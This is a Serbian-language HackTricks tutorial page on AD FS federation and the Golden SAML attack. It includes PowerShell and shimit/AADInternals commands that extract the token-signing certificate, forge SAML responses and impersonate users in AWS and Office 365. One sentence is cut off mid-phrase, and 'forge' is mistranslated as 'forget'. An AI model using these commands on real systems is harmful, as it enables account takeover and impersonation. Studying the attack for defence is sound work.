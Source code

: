 # Federacija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Iz dokumentacije:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federacija** je kolekcija **domena** koji su uspostavili **poverenje**. Nivo poverenja može varirati, ali obično uključuje **autentifikaciju** i gotovo uvek uključuje **autorizaciju**. Tipična federacija može uključivati **broj organizacija** koje su uspostavile **poverenje** za **deljeni pristup** skupu resursa.

Možete **federisati svoje lokalno** okruženje **sa Azure AD** i koristiti ovu federaciju za autentifikaciju i autorizaciju. Ovaj način prijavljivanja osigurava da se sva autentifikacija korisnika vrši lokalno. Ovim metodama administratori mogu implementirati rigoroznije nivoe kontrole pristupa. Federacija sa **AD FS** i PingFederate je dostupna.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

U osnovi, u federaciji se sva **autentifikacija** vrši u **lokalnom** okruženju, a korisnik doživljava SSO (Single Sign-On) u svim poverenim okruženjima. Stoga, korisnici mogu **pristupiti** **cloud** aplikacijama koristeći svoje **lokalne akreditive**.

**Security Assertion Markup Language (SAML)** se koristi za **razmenu** svih informacija o autentifikaciji i autorizaciji između provajdera.

U svakoj federaciji postoje tri strane:

* Korisnik ili klijent
* Provajder identiteta (IdP)
* Provajder usluga (SP)

(Slike preuzete sa https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Prvo, korisnik pristupa aplikaciji (Provajder usluga ili SP, kao što je AWS konzola ili vSphere web klijent). Ovaj korak može biti zaobiđen, što dovodi klijenta direktno do IdP (Provajder identiteta), u zavisnosti od specifične implementacije.
2. Zatim, SP identifikuje odgovarajući IdP (npr. AD FS, Okta) za autentifikaciju korisnika. Zatim kreira SAML (Security Assertion Markup Language) AuthnRequest i preusmerava klijenta na odabrani IdP.
3. IdP preuzima kontrolu, autentifikuje korisnika. Nakon autentifikacije, IdP formira SAMLResponse i prosleđuje ga SP-u preko korisnika.
4. Na kraju, SP procenjuje SAMLResponse. Ako je uspešno validiran, što implicira poverenje sa IdP-om, korisniku se dodeljuje pristup. Time se završava proces prijavljivanja, omogućavajući korisniku da koristi uslugu.

**Ako želite da saznate više o SAML autentifikaciji i uobičajenim napadima, posetite:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS je model identiteta zasnovan na tvrdnjama.
* "..tvrdnje su jednostavno izjave (na primer, ime, identitet, grupa) koje se odnose na korisnike i koje se uglavnom koriste za autorizaciju pristupa aplikacijama zasnovanim na tvrdnjama, smeštenim bilo gde na internetu."
* Tvrdnje za korisnika su napisane unutar SAML tokena i potom potpisane kako bi se obezbedila poverljivost od strane IdP-a.
* Korisnik je identifikovan pomoću ImmutableID. On je globalno jedinstven i čuva se u Azure AD.
* ImmutableID se čuva na lokalnom okruženju kao ConsistencyGuid za korisnika i/ili se može izvesti iz GUID-a korisnika.
* Više informacija na [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML napad:**

* U ADFS-u, SAML Response je potpisan sertifikatom za potpisivanje tokena.
* Ako je sertifikat kompromitovan, moguće je autentifikovati se na Azure AD kao BILO koji korisnik sinhronizovan sa Azure AD!
* Baš kao i kod zloupotrebe PTA, promena lozinke za korisnika ili MFA neće imati nikakav efekat jer mi lažiramo odgovor za autentifikaciju.
* Sertifikat se može izvući sa AD FS servera sa privilegijama DA i zatim se može koristiti sa bilo koje mašine povezane sa internetom.
* Više informacija na [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Proces u kojem **Provajder identiteta (IdP)** proizvodi **SAMLResponse** za autorizaciju prijave korisnika je ključan. U zavisnosti od specifične implementacije IdP-a, **odgovor** može biti **potpisan** ili **šifrovan** korišćenjem **privatnog ključa** IdP-a. Ovaj postupak omogućava **Provajderu usluga (SP)** da potvrdi autentičnost SAMLResponse-a, obezbeđujući da je zaista izdat od strane pouzdanog IdP-a.

Paralela se može povući sa [napadom zlatnim tiketom](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), gde se ključ koji autentifikuje korisnikov identitet i dozvole (
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Sa svim informacijama, moguće je zaboraviti validan SAMLResponse kao korisnik kojeg želite da se predstavljate koristeći [**shimit**](https://github.com/cyberark/shimit)**:** 

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> oblak
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Takođe je moguće kreirati ImmutableID za korisnike samo u oblaku i preuzeti njihov identitet.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
